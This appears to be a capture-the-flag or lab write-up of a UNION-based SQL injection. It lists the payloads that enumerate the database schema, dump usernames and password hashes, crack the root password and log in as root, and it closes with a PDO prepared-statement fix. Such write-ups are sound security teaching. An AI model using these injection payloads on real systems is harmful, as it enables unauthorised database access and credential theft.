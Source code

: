 # SQL Admin Connection

`B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

---

## Description

go to `/?page=member`

submit : 
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns `
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then : \
`1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default`

password = 3bf1114a986ba87ed28fc1b5884fc2f8  =>  "shadow"

then go to `/index.php?page=signin`

login :	`root`\
mdp :	`shadow`

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."